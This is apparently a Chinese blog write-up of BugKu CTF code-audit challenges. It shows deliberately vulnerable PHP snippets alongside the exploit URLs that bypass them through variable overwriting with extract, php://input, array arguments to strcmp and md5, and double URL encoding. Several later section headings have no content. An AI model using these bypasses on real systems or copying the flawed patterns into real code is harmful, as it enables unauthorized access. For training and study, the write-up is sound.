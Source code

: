 ```yaml
---
title: BugKu-CTF-代码审计-Write-Up
date: 2018-03-09 15:30:04
tags:
 - ctf
 - wp
---
```


[BugkuCTF-新版](http://ctf.bugku.com/challenges)
[Bugku-旧版](http://123.206.31.85/login?next=challenges)

可以参照我的[php函数漏洞小结](http://byxs0x0.cn/2018/03/06/php-func-vul/)和[php弱类型小结](http://byxs0x0.cn/2018/03/06/php-weak-type/)

### extract变量覆盖
```php
$flag='xxx';
extract($_GET);
if(isset($shiyan))
{
  $content=trim(file_get_contents($flag));
if($shiyan==$content)
{
  echo'flag{xxx}';
}
else
{
  echo'Oh.no';
}
}
```
extract()可以覆盖变量值，因为`file_get_contents($flag)`，所以我们不能直接覆盖$flag一个值，那么可以利用php://input来获取POST数据流。在将shiyan的值覆盖与POST数据流相同即可。
```
http://120.24.86.145:9009/1.php?shiyan=1&flag=php://input
[POST DATA]
1
```

<br>

### strcmp比较字符串
```php
$flag = "flag{xxxxx}";
if (isset($_GET['a'])) {
if (strcmp($_GET['a'], $flag) == 0) //如果 str1 小于 str2 返回 < 0； 如果 str1大于 str2返回 > 0；如果两者相等，返回 0。
//比较两个字符串（区分大小写）
die('Flag: '.$flag);
else
print 'No';
}
```
在strcmp()函数中存在传入数组会返回Null，那么当我们传入数组，`Null==0`为true，那么满足条件。
`http://120.24.86.145:9009/6.php?a[]=1`
<br>

### urldecode二次编码绕过
```php
if(eregi("hackerDJ",$_GET[id])) {
  echo("not allowed!");
  exit();
}
$_GET[id] = urldecode($_GET[id]);
if($_GET[id] == "hackerDJ")
{
  echo "Access granted!";
  echo "flag";
}
```
代码中第一个条件限制了字符串经过一次URL编码后不能是hackerDJ，但是中间有进行了了urldecode()的操作，那么我们便有机可乘，只需要进行两次url编码即可。
当发送请求的URL地址为`http://120.24.86.145:9009/10.php?id=%25%36%38%25%36%31%25%36%33%25%36%62%25%36%35%25%37%32%25%34%34%25%34%61`时，服务器接受请求后会自动的进行一次URL解码，参数会变为`%68%61%63%6b%65%72%44%4a`，并且能通过第一次验证，然后经过`urldecode()`函数在进行URL解码，`$_GET[id]==hackerDJ`，那么条件就成立，得到flag。
<br>

### md5()函数
```php
error_reporting(0);
$flag = 'flag{test}';
if (isset($_GET['username']) and isset($_GET['password'])) {
  if ($_GET['username'] == $_GET['password'])
    print 'Your password can not be your username.';
  else if (md5($_GET['username']) === md5($_GET['password']))
    die('Flag: '.$flag);
  else
    print 'Invalid password';
}
```

```php
http://120.24.86.145:9009/18.php?username[]=3&password[]=1
var_dump($_GET['username']) //array(1) { [0]=> string(1) "3" }
var_dump($_GET['password']) //array(1) { [0]=> string(1) "1" }

数组之间比较，只要两个数组的数量、KEY、VALUS都相同遍相等，顺序不同没关系。
$_GET['username'] == $_GET['password'] //条件不满足

在利用md5()传入数组会返回Null的特性
md5($_GET['username']) === md5($_GET['password'])
Null === Null //满足

得到flag
```
<br>

### 数组返回NULL绕过

<br>

### sha()函数比较绕过

<br>

### 十六进制与数字比较

<br>

### ereg正则%00截断

<br>

### strpos数组绕过

<br>
